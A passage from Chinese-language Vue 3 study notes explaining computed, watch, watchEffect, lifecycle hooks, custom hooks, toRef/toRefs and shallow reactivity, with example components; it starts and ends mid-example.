            <span>cxk</span>
          </template>
        </Demo>
      </template>
      
      <script>
      import Demo from '@/components/Demo'
      
      export default {
        name: 'App',
        components:{Demo},
        setup(){
          function showHelloMsg(value) {
            alert(`触发hello事件，value=${value}`)
          }
          return{
            showHelloMsg
          }
        }
      }
      </script>
      ```
    
      Demo.vue
    
      ```vue
      <template>
        <h2>一个人的信息</h2>
        <h3>姓名：{{person.name}}</h3>
        <h3>年龄：{{person.age}}</h3>
        <button @click="handleHello">触发自定义hello事件</button>
      </template>
      
      <script>
        export default {
          name:'Demo',
          props:['msg','user'],
          emits:['hello'],
          setup(props,context){
            console.log('setup执行...this=',this)
            console.log('props=',props)
            console.log('context=',context)
            console.log('slot=',context.slots)
            ...
          }
        }
      </script>
      
      <style>
      </style>
      ```
    
      
    
      

#### 计算属性与监视

> Vue3的计算属性computed

Vue3也是支持Vue2的计算属性写法，但不建议。

App.vue

```vue
<template>
  <Demo/>
</template>

<script>
import Demo from '@/components/Demo'

export default {
  name: 'App',
  components:{Demo}
}
</script>
```

Demo.vue

```vue
<template>
  <h2>一个人的信息</h2>
  姓：<input type="text" v-model="person.firstName"><br>
  名：<input type="text" v-model="person.lastName"><br>
  全名：<span>{{fullName}}</span>
</template>

<script>
  import {reactive} from "vue";
  export default {
    name:'Demo',
    setup(){
      //数据
      let person = reactive({
        firstName:'菜',
        lastName:'捆'
      })
      //返回一个对象
      return{
        person
      }
    },
    computed:{
      fullName(){
        return this.person.firstName + this.person.lastName;
      }
    }
  }
</script>

<style>

</style>
```

实现效果：


虽然可以使用，但不建议，因为Vue3提供了新的方式。Vue3将计算属性改为组合式API。

组合式Api：需要用时引入并在setup方法中进行组合

简写适合只读，全写适合读写。

Demo.vue

```vue
<template>
  <h2>一个人的信息</h2>
  姓：<input type="text" v-model="person.firstName"><br>
  名：<input type="text" v-model="person.lastName"><br>
  全名：<span>{{person.fullName}}</span><br>
  全名：<input type="text" v-model="person.fullName">
</template>

<script>
  import {reactive,computed} from "vue";
  export default {
    name:'Demo',
    setup(){
      //数据
      let person = reactive({
        firstName:'菜',
        lastName:'捆'
      })

      //计算属性——简写（没有考虑计算属性被修改的情况）
      /*person.fullName = computed(()=>{
        return person.firstName + person.lastName;
      })*/

      //计算属性——简写（考虑读和写）
      person.fullName = computed({
        get(){
          return person.firstName +'-'+ person.lastName;
        },
        set(value){
          const nameArr = value.split('-');
          person.firstName = nameArr[0];
          person.lastName = nameArr[1];
        }
      })

      //返回一个对象
      return{
        person
      }
    }
  }
</script>

<style>

</style>
```

实现效果：


> 监视属性watch

Vue3中可以使用Vue2的监视属性写法，但不建议，因为Vue3提供了新的写法。

Vue2中监视属性可以简写和全写，简写只是监视变化，全写可以监视初始化时和深度结构（多层对象）里的变化

```vue
<template>
  <h2>当前求和为：{{sum}}</h2>
  <button @click="sum++">点我+1</button>
</template>

<script>
  import {ref} from "vue";
  export default {
    name:'Demo',
    setup(){
      let sum = ref(0);

      //返回一个对象
      return{
        sum
      }
    },
    watch:{
      //Vue2中的简写方式
      /*sum(newVal,oldVal){
        console.log(`sum发生了改变：nweVal=${newVal},oldVal=${oldVal}`)
      }*/
      //Vue2中的全写方式
      sum:{
        immediate:true,//初始化时监视一次
        deep:true,//深度监视
        handler(newVal,oldVal){
          console.log(`sum发生了改变：nweVal=${newVal},oldVal=${oldVal}`)
        }
      }
    }
  }
</script>

<style>

</style>
```

实现效果：


在Vue3中提供了新的编写方式。组合式Api。在需要时引入，并可以在setup方法中设计。并且Vue2中都是编写一个watch配置项，而在Vue3中是支持多个定义watch。


Vue3中对于监视多个属性，可以使用一个watch，传入一个数组。而变化的传值newVal和oldVal都变为数组。


Vue3中对于watch的属性配置，如前面提到的初始化时执行一次，深度监视（其实在Vue中都使用Proxy对象了，这个deep的作用不大）功能，可以在配置watch方法时传入第三个属性（一个对象结构的配置）。

Demo.vue

```vue
<template>
  <h2>当前求和为：{{sum}}</h2>
  <button @click="sum++">点我+1</button>
  <hr>
  <h2>当前的信息：{{msg}}</h2>
  <button @click="msg += ', zhuzhe'">修改信息</button>
</template>

<script>
  import {ref,watch} from "vue";
  export default {
    name:'Demo',
    setup(){
      let sum = ref(0);
      let msg = ref('hello');

      //情况一：监视ref所定义的响应式数据
      /*watch(sum,(newVal,oldVal)=>{
        console.log(`sum发生了改变：nweVal=${newVal},oldVal=${oldVal}`)
      })*/

      //情况二：监视ref定义的多个响应式数据
      /*watch([sum,msg],(newVal,oldVal)=>{
        console.log('sum发生了改变：nweVal=',newVal,',oldVal=',oldVal)
      })*/

      //使用watch属性（watch提供了第三个参数）
      watch(sum,(newVal,oldVal)=>{
        console.log(`sum发生了改变：nweVal=${newVal},oldVal=${oldVal}`)
      },{immediate:true,deep:true})


      //返回一个对象
      return{
        sum,msg
      }
    }
  }
</script>

<style>

</style>
```

实现效果：


> Vue3中的监视属性问题

* **监视对象存在bug**

  Vue3中如果监视的对象数据，则在对象内部发生改变时都能触发监视属性，可以不用deep配置。

  Vue3中如果监视的是对象数据，会存在一个bug：无法获取变化前的值，只能获取变化后的值。

  

  能监视到对象内部的变化，但没法返回oldVal的内容。监视的person对象是一个地址，修改对象里的值，引用地址不变，所以旧值和新值一样。

  解决方案：将那一个属性提取出来定义为ref。如果是对象类型则不建议直接定义为ref，因为ref定义的对象内部还是用reactive。[ref函数](####ref函数)

  

* **监视对象的属性无法实现**

  Vue3中如果想监视一个reactive创建的对象的一个属性，则不能直接监视，会有警告：

  

  大概的意思是支持监视数组、ref创建的对象、reactive创建的对象

  

  如果仍要监视这一个属性，可以使用箭头函数返回这个属性，构成一个对象去执行监视。（箭头函数本质是一个匿名内部类）

  Demo.vue

  ```vue
  <template>
    <h2>当前求和为：{{sum}}</h2>
    <button @click="sum++">点我+1</button>
    <hr>
    <h2>当前的信息：{{msg}}</h2>
    <button @click="msg += ', zhuzhe'">修改信息</button>
    <hr>
    <h2>姓名：{{person.name}}</h2>
    <h2>年龄：{{person.age}}</h2>
    <h2>薪资：{{person.job.j1.salary}}</h2>
    <button @click="person.name +='~'">修改姓名</button>
    <button @click="person.age++">增长年龄</button>
    <button @click="person.job.j1.salary++">增长薪资</button>
  </template>
  
  <script>
  import {reactive, ref, watch} from "vue";
    export default {
      name:'Demo',
      setup(){
        let sum = ref(0);
        let msg = ref('hello');
        let person = reactive({
          name:'zhuzhe',
          age:26,
          job:{
            j1:{
              salary:20
            }
          }
        })
  
        //情况一：监视ref所定义的响应式数据
        /*watch(sum,(newVal,oldVal)=>{
          console.log(`sum发生了改变：nweVal=${newVal},oldVal=${oldVal}`)
        })*/
  
        //情况二：监视ref定义的多个响应式数据
        /*watch([sum,msg],(newVal,oldVal)=>{
          console.log('sum发生了改变：nweVal=',newVal,',oldVal=',oldVal)
        })*/
  
        //使用watch属性（watch提供了第三个参数）
        watch(sum,(newVal,oldVal)=>{
          console.log(`sum发生了改变：nweVal=${newVal},oldVal=${oldVal}`)
        },{immediate:true,deep:true})
  
        /**
         * 情况三：监视reactive所定义的一个响应式数据的全部属性
         *  1. 注意：此处无法正确的获取oldValue
         *  2. 注意：强制开启了深度监视（deep配置无效）
         */
        /*watch(person,(newVal,oldVal)=>{
          console.log('person变化了',newVal,oldVal)
        })*/
  
        //情况四：监视reactive所定义的一个响应式数据中的某个属性
        watch(()=>person.age,(newVal,oldVal)=>{
          console.log('person的age变化了',newVal,oldVal)
        })
  
        //返回一个对象
        return{
          sum,msg,person
        }
      }
    }
  </script>
  
  <style>
  
  </style>
  ```

  

  同时这种方式也可以用来监视一个对象中的多个属性变化，使用前面提到的数组写法+监视某个属性的箭头函数返回值写法。

  

  

  还有一种情况就是我监视一个reactive创建的响应式对象的一个属性，而这一个属性是一个对象：

  * 因为是使用reactive创建的响应式对象，所以job是一个Proxy对象
  * 我们在操作时是job里的一个属性，所以这一个监视还需要加上deep:true才能实现监视

  

  

  ```vue
  Demo.vue
  
  ```vue
  <template>
    <h2>当前求和为：{{sum}}</h2>
    <button @click="sum++">点我+1</button>
    <hr>
    <h2>当前的信息：{{msg}}</h2>
    <button @click="msg += ', zhuzhe'">修改信息</button>
    <hr>
    <h2>姓名：{{person.name}}</h2>
    <h2>年龄：{{person.age}}</h2>
    <h2>薪资：{{person.job.j1.salary}}</h2>
    <button @click="person.name +='~'">修改姓名</button>
    <button @click="person.age++">增长年龄</button>
    <button @click="person.job.j1.salary++">增长薪资</button>
  </template>
  
  <script>
  import {reactive, ref, watch} from "vue";
    export default {
      name:'Demo',
      setup(){
        let sum = ref(0);
        let msg = ref('hello');
        let person = reactive({
          name:'zhuzhe',
          age:26,
          job:{
            j1:{
              salary:20
            }
          }
        })
  
        //情况一：监视ref所定义的响应式数据
        /*watch(sum,(newVal,oldVal)=>{
          console.log(`sum发生了改变：nweVal=${newVal},oldVal=${oldVal}`)
        })*/
  
        //情况二：监视ref定义的多个响应式数据
        /*watch([sum,msg],(newVal,oldVal)=>{
          console.log('sum发生了改变：nweVal=',newVal,',oldVal=',oldVal)
        })*/
  
        //使用watch属性（watch提供了第三个参数）
        watch(sum,(newVal,oldVal)=>{
          console.log(`sum发生了改变：nweVal=${newVal},oldVal=${oldVal}`)
        },{immediate:true,deep:true})
  
        /**
         * 情况三：监视reactive所定义的一个响应式数据的全部属性
         *  1. 注意：此处无法正确的获取oldValue
         *  2. 注意：强制开启了深度监视（deep配置无效）
         */
        /*watch(person,(newVal,oldVal)=>{
          console.log('person变化了',newVal,oldVal)
        })*/
  
        //情况四：监视reactive所定义的一个响应式数据中的某个属性
        /*watch(()=>person.age,(newVal,oldVal)=>{
          console.log('person的age变化了',newVal,oldVal)
        })*/
  
        //情况五：监视reactive所定义的一个响应式数据中的某些属性
        /*watch([()=>person.age,()=>person.name],(newVal,oldVal)=>{
          console.log('person的age或name变化了',newVal,oldVal)
        })*/
  
        //情况六：监视reactive所定义的一个响应式数据中的某个对象属性
        watch(()=>person.job,(newVal,oldVal)=>{
          console.log('person的job变化了',newVal,oldVal)
        },{deep:true})
  
        //返回一个对象
        return{
          sum,msg,person
        }
      }
    }
  </script>
  
  <style>
  
  </style>
  ```

* 监视ref时的value使用

  Demo.vue

  ```vue
  <template>
    <h2>当前求和为：{{sum}}</h2>
    <button @click="sum++">点我+1</button>
    <hr>
    <h2>当前的信息：{{msg}}</h2>
    <button @click="msg += ', zhuzhe'">修改信息</button>
    <hr>
    <h2>姓名：{{person.name}}</h2>
    <h2>年龄：{{person.age}}</h2>
    <h2>薪资：{{person.job.j1.salary}}</h2>
    <button @click="person.name +='~'">修改姓名</button>
    <button @click="person.age++">增长年龄</button>
    <button @click="person.job.j1.salary++">增长薪资</button>
  </template>
  
  <script>
  import {reactive, ref, watch} from "vue";
    export default {
      name:'Demo',
      setup(){
        let sum = ref(0);
        let msg = ref('hello');
        let person = ref({
          name:'zhuzhe',
          age:26,
          job:{
            j1:{
              salary:20
            }
          }
        })
  
        //监视属性，监视一个基本数据类型可以不用.value，因为你要监视一个属性的变化，不是监视一个具体的值
        watch(sum,(newValue,oldValue)=>{
          console.log('sum的值变化了',newValue,oldValue)
        })
        //监视属性，监视的是一个person对象（Proxy对象），而这个对象是被RefImpl包裹的，需要用.value取出来
        //如果直接监视RefImpl对象，则这一个Proxy对象的地址被改变时才会被监视到
        //如果仍要监视RefImpl对象，并获得Proxy对象的里的变化，则需要开启deep:true
        watch(person.value,(newValue,oldValue)=>{
          console.log('person的值变化了',newValue,oldValue)
        })
  
  
        //返回一个对象
        return{
          sum,msg,person
        }
      }
    }
  </script>
  
  <style>
  
  </style>
  ```

#### watchEffect函数

* watch的套路是：既要指明监视的属性，也要指明监视的回调

* watchEffect的套路是：不用指明监视哪个属性，监视的回调中用到哪个属性，那就监视哪个属性

* watchEffect有点像computed

  * 但computed注重计算出来的值（回调函数返回值），所以必须要写返回值
  * 而watchEffect更注重的是过程（回调函数的函数体），所以不用写返回值

  ```js
  <template>
    <h2>当前求和为：{{sum}}</h2>
    <button @click="sum++">点我+1</button>
    <hr>
    <h2>当前的信息：{{msg}}</h2>
    <button @click="msg += ', zhuzhe'">修改信息</button>
    <hr>
    <h2>姓名：{{person.name}}</h2>
    <h2>年龄：{{person.age}}</h2>
    <h2>薪资：{{person.job.j1.salary}}</h2>
    <button @click="person.name +='~'">修改姓名</button>
    <button @click="person.age++">增长年龄</button>
    <button @click="person.job.j1.salary++">增长薪资</button>
  </template>
  
  <script>
  import {reactive, ref, watch,watchEffect} from "vue";
    export default {
      name:'Demo',
      setup(){
        let sum = ref(0);
        let msg = ref('hello');
        let person = reactive({
          name:'zhuzhe',
          age:26,
          job:{
            j1:{
              salary:20
            }
          }
        })
  
        //监视，一个简单的watch
        /*watch(sum,(newValue,oldValue)=>{
          console.log('sum的值变化了',newValue,oldValue)
        },{immediate:true})*/
  
        //监视，不指定监视对象，监视回调函数所用到的sum和salary的变化
        watchEffect(()=>{
          const x1 = sum.value;
          const x2 = person.job.j1.salary;
          console.log('watchEffect所指定的回调执行了...')
        })
  
        //返回一个对象
        return{
          sum,msg,person
        }
      }
    }
  </script>
  
  <style>
  
  </style>
  ```

  


### 生命周期

Vue2生命周期：


Vue3生命周期：


Vue3相比Vue2在生命周期上的不同：


* 在Vue3中没有销毁（destroy）概念，而是卸载（unmount）概念。
* 在Vue2中实例化Vue但没有指定容器时，会走前面两个钩子方法。在Vue3中需要完成实例化Vue并且还要完成容器指定才会执行生命周期。
* Vue2和Vue3都有完成销毁前的资源关闭。不过Vue3在生命周期图中没有显示出来。


#### Vue3的生命周期钩子函数

使用一个v-if来实现组件的装载和卸载，触发对应的生命周期钩子函数。

App.vue

```vue
<template>
  <Demo v-if="isShow"/>
  <button @click="isShow = !isShow">切换隐藏/显示</button>
</template>

<script>
import {ref} from 'vue'
import Demo from '@/components/Demo'

export default {
  name: 'App',
  components:{Demo},
  setup(){
    let isShow = ref(true);
    return{
      isShow
    }
  }
}
</script>
```

Demo.vue

```vue
<template>
  <h2>当前求和为：{{sum}}</h2>
  <button @click="sum++">点我+1</button>
</template>

<script>
import {ref} from "vue";
  export default {
    name:'Demo',
    setup(){
      let sum = ref(0);
      //返回一个对象
      return{
        sum
      }
    },
    /*通过配置项的形式来使用生命周期钩子*/
    beforeCreate() {
      console.log('[Demo]:beforeCreate...')
    },
    created() {
      console.log('[Demo]:created...')
    },
    beforeMount() {
      console.log('[Demo]:beforeMount...')
    },
    mounted() {
      console.log('[Demo]:mounted...')
    },
    beforeUpdate() {
      console.log('[Demo]:beforeUpdate...')
    },
    updated() {
      console.log('[Demo]:updated...')
    },
    //Vue2的这两个钩子不再使用了
    /*beforeDestroy() {
      console.log('[Demo]:beforeDestroy...')
    },
    destroyed() {
      console.log('[Demo]:destroyed...')
    },*/
    beforeUnmount() {
      console.log('[Demo]:beforeUnmount...')
    },
    unmounted() {
      console.log('[Demo]:unmounted...')
    }
  }
</script>

<style>

</style>
```

实现效果：


更新组件data时触发钩子



使用v-if将组件销毁时触发钩子


#### Vue3中的组合式生命周期钩子函数

Vue3是支持配置式的生命周期钩子函数，使用setup的组合式并不一定需要，仅供参考。

|    选项式API    |           组合式API           |
| :-------------: | :---------------------------: |
|  beforeCreate   | 不需要（直接写到setup函数中） |
|     created     | 不需要（直接写到setup函数中） |
|   beforeMount   |         onBeforeMount         |
|     mounted     |           onMounted           |
|  beforeUpdate   |        onBeforeUpdate         |
|     updated     |           onUpdated           |
| beforeDestroyed |        onBeforeUnmount        |
|    destroyed    |          onUnmounted          |

App.vue

```vue
<template>
  <Demo v-if="isShow"/>
  <button @click="isShow = !isShow">切换隐藏/显示</button>
</template>

<script>
import {ref} from 'vue'
import Demo from '@/components/Demo'

export default {
  name: 'App',
  components:{Demo},
  setup(){
    let isShow = ref(true);
    return{
      isShow
    }
  }
}
</script>
```

Demo.vue

```vue
<template>
  <h2>当前求和为：{{sum}}</h2>
  <button @click="sum++">点我+1</button>
</template>

<script>
import {ref,onBeforeMount,onMounted,onBeforeUpdate,onUpdated,onBeforeUnmount,onUnmounted} from "vue";
  export default {
    name:'Demo',
    setup(){
      console.log('[Demo]:setup...')

      let sum = ref(0);

      /*组合式生命周期钩子函数*/
      onBeforeMount(()=>{
        console.log('[Demo]:onBeforeMount...')
      })
      onMounted(()=>{
        console.log('[Demo]:onMounted...')
      })
      onBeforeUpdate(()=>{
        console.log('[Demo]:onBeforeUpdate...')
      })
      onUpdated(()=>{
        console.log('[Demo]:onUpdated...')
      })
      onBeforeUnmount(()=>{
        console.log('[Demo]:onBeforeUnmount...')
      })
      onUnmounted(()=>{
        console.log('[Demo]:onUnmounted...')
      })

      //返回一个对象
      return{
        sum
      }
    },
    /*通过配置项的形式来使用生命周期钩子*/
    /*beforeCreate() {
      console.log('[Demo]:beforeCreate...')
    },
    created() {
      console.log('[Demo]:created...')
    },
    beforeMount() {
      console.log('[Demo]:beforeMount...')
    },
    mounted() {
      console.log('[Demo]:mounted...')
    },
    beforeUpdate() {
      console.log('[Demo]:beforeUpdate...')
    },
    updated() {
      console.log('[Demo]:updated...')
    },
    beforeUnmount() {
      console.log('[Demo]:beforeUnmount...')
    },
    unmounted() {
      console.log('[Demo]:unmounted...')
    }*/
  }
</script>

<style>

</style>
```

展示效果：


组件更新时


组件卸载时


#### 特殊的情况

正常来说，上面的两种写法都是二选一，非要写上两种的全部生命周期钩子函数。则会有一个先后顺序的问题。（都会调用）


### 自定义hook函数

* hook本质是一个函数，把setup函数中使用的Composition API进行了封装
* 类似于Vue2中的[mixin](###配置项mixin(组件配置项的抽象封装))
* 自定义hook的优势：复用代码，让setup中的逻辑更清楚易懂。


#### 案例：一个获取鼠标打点的功能

当组件装载时，点击屏幕获取对应的坐标。当组件卸载时，将事件卸载。

App.vue

```vue
<template>
  <Demo v-if="isShow"/>
  <button @click="isShow = !isShow">切换隐藏/显示</button>
</template>

<script>
import {ref} from 'vue'
import Demo from '@/components/Demo'

export default {
  name: 'App',
  components:{Demo},
  setup(){
    let isShow = ref(true);
    return{
      isShow
    }
  }
}
</script>
```

Demo.vue

```vue
<template>
  <h2>当前求和为：{{sum}}</h2>
  <button @click="sum++">点我+1</button>
  <hr>
  <h2>当前点击屏幕时鼠标的坐标为：x:{{point.x}},y:{{point.y}}</h2>
</template>

<script>
import {onMounted, onUnmounted, reactive, ref} from "vue";
  export default {
    name:'Demo',
    setup(){
      let sum = ref(0);
      let point = reactive({
        x:0,y:0
      })

      //外部定义点击回调函数，这样在卸载时才能传递函数名
      function windowClick(event) {
        console.log(event.pageX,event.pageY)
        point.x = event.pageX;
        point.y = event.pageY;
      }

      /*在组件完成挂载后，就可以来给屏幕点击时间绑定回调*/
      onMounted(()=>{
        window.addEventListener('click',windowClick)
      })
      /*在组件被卸载前，就将时间去除*/
      onUnmounted(()=>{
        //removeEventListener需要两个参数：1-哪一个时间，2-时间对应的回调函数
        window.removeEventListener('click',windowClick)
      })

      //返回一个对象
      return{
        sum,
        point
      }
    }
  }
</script>

<style>

</style>
```

实现效果：


组件卸载后，绑定事件也被清除，此时点击就无效了


#### 案例：使用自定义hook封装打点功能

和当时定义mixin一样，因为这一部分方法可能存在不同组件的复用，将其定义到一个全局位置，可以被任意 引入访问。

* 通常hook就是定义在./hooks文件夹下，并且文件命名都是useXXX
* 使用者只需要在setup中引入hook文件，执行方法获得结果。即将hook的代码组合进当前代码中。

项目结构：


main.js 没有改变

```js
//引入不在是vue构造函数，引入的是名为createApp的工厂函数（不用new）
import { createApp } from 'vue'
//外壳组件
import App from './App.vue'
//创建应用实例对象——app（类似vue2中的vm，但app比vm更轻）
const app = createApp(App);
//console.log('app',app)
app.mount('#app')
```

App.vue 没有改变

```vue
<template>
  <Demo v-if="isShow"/>
  <button @click="isShow = !isShow">切换隐藏/显示</button>
</template>

<script>
import {ref} from 'vue'
import Demo from '@/components/Demo'

export default {
  name: 'App',
  components:{Demo},
  setup(){
    let isShow = ref(true);
    return{
      isShow
    }
  }
}
</script>
```

将上一个案例中的打点功能代码，抽取封装到hooks文件夹中。

```js
import {onMounted, onUnmounted, reactive} from "vue";

function usePoint() {
    //实现鼠标“打点”相关数据
    let point = reactive({
        x:0,y:0
    })

    //实现鼠标“打点”相关的方法
    function windowClick(event) {
        console.log(event.pageX,event.pageY)
        point.x = event.pageX;
        point.y = event.pageY;
    }

    //实现鼠标“打点”的相关生命周期钩子
    onMounted(()=>{
        window.addEventListener('click',windowClick)
    })

    onUnmounted(()=>{
        //removeEventListener需要两个参数：1-哪一个时间，2-时间对应的回调函数
        window.removeEventListener('click',windowClick)
    })

    return point;
}

export default usePoint
```

Demo.vue 使用hook文件中方法，实现代码组合打点功能。

```vue
<template>
  <h2>当前求和为：{{sum}}</h2>
  <button @click="sum++">点我+1</button>
  <hr>
  <h2>当前点击屏幕时鼠标的坐标为：x:{{point.x}},y:{{point.y}}</h2>
</template>

<script>
import {ref} from "vue";
import usePoint from "@/hooks/usePoint";

  export default {
    name:'Demo',
    setup(){
      let sum = ref(0);
      //使用hook
      const point = usePoint();

      //返回一个对象
      return{
        sum,point
      }
    }
  }
</script>

<style>

</style>
```

实现效果：


隐藏后正常触发事件解绑


### toRefs

Vue3提供的一个新方法，也是用作前面提到的数据对象创建方式之一的[RefImpl](###ref函数)对象。

* 作用：创建一个ref对象，其value值指向另一个对象中的某个属性
* 语法：`const name = toRef(person,'name')`
* 应用：要将响应式对象中的某个属性单独提供给外部使用时
* 扩展：`toRefs`与`toRef`功能一致，但可以批量创建多个ref对象，语法：`toRefs(person)`


#### 案例：setup返回内容

在日常开发中，setup返回深层对象结果后，在模板使用上编写麻烦。但如果在返回时获取到属性并提供新名称，可以简化编写，但会导致数据失去响应式。

Demo.vue组件

```vue
<template>
  <h2>姓名：{{name}}</h2>
  <h2>年龄：{{age}}</h2>
  <h2>薪资：{{salary}}</h2>
  <button @click="name +='~'">修改姓名</button>
  <button @click="age++">增长年龄</button>
  <button @click="salary++">增长薪资</button>
</template>

<script>
import {reactive} from "vue";
export default {
  name:'Demo',
  setup(){
    let person = reactive({
      name:'zhuzhe',
      age:26,
      job:{
        j1:{
          salary:20
        }
      }
    })

    //返回一个对象
    return{
      name:person.name,
      age:person.age,
      salary: person.job.j1.salary
    }
  }
}
</script>

<style>

</style>
```

导致最终页面任何操作都不起作用，但是页面确实读取到数据。证明此时返回出去的数据不再是响应式了（因为获取到具体的数据值时，返回的就不再是Proxy对象了。）


#### 案例：setup返回内容使用toRef

其实前面的情况就是使用Proxy对象做代理时，对对象属性赋予外部值进行更改，不会产生响应式的问题。

源码实现刚才的问题：

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>测试Proxy对象的响应式</title>
</head>
<body>
    <script type="text/javascript">
        /*数据对象*/
        let person = {
            name:'zhuzhe',
            age:26
        }

        /*代理数据对象*/
        let p = new Proxy(person,{
            set(target, propName, value) {
                console.log(`${propName}被修改了，将执行界面更新等操作...`)
                //target[propName] = value;
                Reflect.set(target,propName,value);//Vue3的源码写法
            }
        })

        /*自定义变量*/
        let name = person.name;
    </script>
</body>
</html>
```

代理对象替代操作真实对象。


但对于自定义变量，其定义本身就独立在外。因为person.name是一个字符串，基本数据类型。

```js
let name = person.name;
//等价于
let name = 'zhuzhe'
```

所以对于person的改动不会响应到自定义变量。自定义变量的改动也不会传递到person。


对于前面案例中的失去响应式的原因，就是这一个。


定义提供给外部的数据属性，如果其值是对于某个响应式对象的子对象值，那么接收到的还是同一个对象的内存地址，那么在改动对象时会有响应式。但是目前提供个给外部数据属性是基本数据类型，则就是copy一个相同的值，等价于


解决方法。使用toRef函数，这一个函数会创建返回一个RefImpl对象，其值就是定义时所指向的响应式对象的值。（注意这里没有发生值传递，没有出现相同的副本）有点像设计模式的桥接模式。


并且由于Ref对象在模板使用时是不用写.value。所以完美实现了上面案例中的原始需求。

Demo.vue

```vue
<template>
  <h2>姓名：{{name}}</h2>
  <h2>年龄：{{age}}</h2>
  <h2>薪资：{{salary}}</h2>
  <button @click="name +='~'">修改姓名</button>
  <button @click="age++">增长年龄</button>
  <button @click="salary++">增长薪资</button>
</template>

<script>
import {reactive,toRef} from "vue";
export default {
  name:'Demo',
  setup(){
    let person = reactive({
      name:'zhuzhe',
      age:26,
      job:{
        j1:{
          salary:20
        }
      }
    })

    //返回一个对象
    return{
      name: toRef(person,'name'),
      age: toRef(person,'age'),
      salary: toRef(person.job.j1,'salary')//第一个参数是一个对象，第二个参数表示要包装的对象的值
    }
  }
}
</script>

<style>

</style>
```

#### 注意

注意，toRef和ref函数不同，toRef类似引用了响应式对象中的一个属性的地址。而ref是拿着一个基本数据类型去创建一个Ref对象。

所以当想这样写时，会导致可以实现数据响应式，但这已经产生两套数据了。新的Ref对象和person对象毫无关联，像在表单页面中这样会导致最终提交和用户修改不一致。


#### 案例：setup返回内容使用toRefs

toRefs就是优化创建编写toRef在遇到大量数据编写情况的提高效率。可以一次性将一个对象第一层的元素都封装成toRef返回的对象。并且配合es6的对象展开，可以简介代码编写。（缺点就是类似salary这种深层次的属性还是得自己手写一点代码）

Demo.vue

```vue
<template>
  <h2>姓名：{{name}}</h2>
  <h2>年龄：{{age}}</h2>
  <h2>薪资：{{job.j1.salary}}</h2>
  <button @click="name +='~'">修改姓名</button>
  <button @click="age++">增长年龄</button>
  <button @click="job.j1.salary++">增长薪资</button>
</template>

<script>
import {reactive,toRefs} from "vue";
export default {
  name:'Demo',
  setup(){
    let person = reactive({
      name:'zhuzhe',
      age:26,
      job:{
        j1:{
          salary:20
        }
      }
    })

    const x = toRefs(person);//将一对象中的所有属性都传力成RefImpl对象

    //返回一个对象
    return{
      ...x//使用es6的对象解构，将其解开返回
    }
  }
}
</script>

<style>

</style>
```

展示效果：


可以正常改数据


### 其他Composition API

#### shallowReactive与shallowRefer

概述：

* shallowReactive：只处理对象最外层属性的响应式（浅响应式）
* shallowRef：只处理基本数据类型的响应式，不进行对象的响应式处理
* 什么时候调用
  * 如果有一个对象数据，结构比较深，但变化时只是外层属性变化===>shallowReactive
  * 如果有一个对象数据，后续功能不会修改该对象中的属性，而是生成新的对象来替换===>shallowRef。

例子：

shallow：浅层次

* shallowReactive：浅层次的响应式，指如果使用这个函数来定义一个响应式对象reactive，那么这个对象只有第一层数据是存在响应式的，往下几层不提供响应式功能。

  

  （上面name、age具备响应式，job里的salary不具备）

  ```vue
  <template>
    <h3>{{person}}</h3>
    <h2>姓名：{{name}}</h2>
    <h2>年龄：{{age}}</h2>
    <h2>薪资：{{job.j1.salary}}</h2>
    <button @click="name +='~'">修改姓名</button>
    <button @click="age++">增长年龄</button>
    <button @click="job.j1.salary++">增长薪资</button>
  </template>
  
  <script>
  import {reactive,toRefs,shallowReactive,shallowRef} from "vue";
  export default {
    name:'Demo',
    setup(){
      let person = shallowReactive({
        name:'zhuzhe',
        age:26,
        job:{
          j1:{
            salary:20
          }
        }
      })
  
      const x = toRefs(person);
  
      //返回一个对象
      return{
        person,
        ...x
      }
    }
  }
  </script>
  
  <style>
  
  </style>
  ```

  只能改name和age，不能改salary

  

  

* shallowRef：浅层次的Ref，当传递基本数据类型时，和普通的Ref没有差别。当传递对象时，和原本的Ref定义不太一样。

  * ref：如果传递的是一个对象，则底层调用reactive来创建一个Proxy对象

    ```vue
    <template>
      <h2>c={{c.num}}</h2>
      <button @click="c.num++">点我++</button>
    </template>
    
    <script>
    import {ref} from "vue";
    export default {
      name:'Demo',
      setup(){
        let c = ref({
          num:0
        })
    
        //返回一个对象
        return{
          c
        }
      }
    }
    </script>
    
    <style>
    
    </style>
    ```

    

  * shallowRef：浅层次Ref，这一个方法在创建基本数据类型对象时，和Ref函数是一样的。但在创建对象结构时，所创建的RefImpl对象中不会底层调用reactive对对象类型数据的处理为Proxy对象，而是继续保留其对象结构。

    ```vue
    <template>
      <h2>c={{c.num}}</h2>
      <button @click="c.num++">点我++</button>
    </template>
    
    <script>
    import {ref, shallowRef} from "vue";
    export default {
      name:'Demo',
      setup(){
        let c = shallowRef({
          num:0
        })
    
        console.log('c=',c)
        //返回一个对象
        return{
          c
        }
      }
    }
    </script>
    
    <style>
    
    </style>
    ```

    实现效果：

    

    

    


#### readonly与shallowReadonly

概述：

* readonly：让一个响应式数据变为只读的（深只读）
* shallowReadonly：让一个响应式数据变为只读的（浅只读）
* 不希望数据被修改时

例子：

App.vue

```vue
<template>
  <Demo v-if="isShow"/>
  <button @click="isShow = !isShow">切换隐藏/显示</button>
</template>

<script>
import {ref} from 'vue'
import Demo from '@/components/Demo'

export default {
